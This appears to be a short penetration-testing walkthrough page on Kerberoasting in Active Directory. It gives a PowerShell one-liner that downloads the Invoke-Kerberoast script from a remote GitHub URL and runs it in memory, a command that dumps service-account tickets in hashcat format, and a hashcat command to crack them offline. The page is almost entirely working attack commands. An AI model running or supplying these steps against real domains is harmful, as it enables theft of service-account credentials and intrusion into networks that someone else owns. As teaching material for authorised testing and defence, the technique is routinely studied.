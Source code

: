 # Get SPN Account Ticket with Invoke-Kerberoast

### Installing Invoke-Kerberoast script

Lets first get the Powershell Invoke-Kerberoast script.

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
```

***

### Loading into Memory

Now lets load this into memory:

```powershell
Invoke-Kerberoast -OutputFormat hashcat |fl
```

You should get a SPN ticket.&#x20;

<figure><img src="../../../../../../../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

***

### Cracking Hash using Hashcat

The type of hash we're cracking is **Kerberos 5 TGS-REP etype 23** and the hashcat code for this is **13100**

```bash
hashcat -m 13100 -​a 0 hash.txt wordlist --force
```

***
